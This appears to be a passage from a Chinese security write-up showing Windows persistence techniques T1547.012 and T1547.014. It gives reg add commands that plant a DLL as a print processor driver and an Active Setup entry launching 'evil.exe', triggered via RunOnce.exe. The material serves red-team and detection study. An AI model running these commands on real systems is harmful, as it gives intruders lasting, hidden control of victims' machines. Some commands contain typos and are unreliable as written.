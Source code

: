 # T1547.012 (print processors by reg)

reg add "HKLM\\SYSTEM\\ControlSet001\\Control\\Print\\Environments\\Windows x64\\Print Processors\\winprint /v "Driver" /d "C:\\Users\\axingg\\Downloads\\DEment.dll" /t REG\_SZ  
reg add "HKLM\\SYSTEM\\ControlSet001\\Control\\Print\\Environments\\Windows x64\\Print Processors\\PrintFiiterPipelineSvc /v "Driver" /d "C:\\Users\\axingg\\Downloads\\DEment.dll" /t REG\_SZ  
reg add "HKLM\\SYSTEM\\ControlSet001\\Control\\Print\\Environments\\Windows x64\\Print Processors\\lltdsvc1 /v "Driver" /d "C:\\Users\\axingg\\Downloads\\EntAppsvc" /t REG\_SZ  
[![](assets/1706145586-bd167e633528b5cfb2a09710e46a6c3b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124113723-e288f5da-ba69-1.png)

# T1547.014 (Active Setup)

reg add "HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\evil"  
reg add "HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\evil" /v StubPath /t REG\_SZ /d "C:\\Users\\axingg\\desktop\\evil.exe"  
reg add "HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\evil" /v "@" /t REG\_SZ /d "test for congya"  
[![](assets/1706145586-c131a1ea506d6137ddf5dc5951ea2a0a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124113855-197b025e-ba6a-1.png)  
RunOnce.exe /AlternateShellStartup //即可启动成功  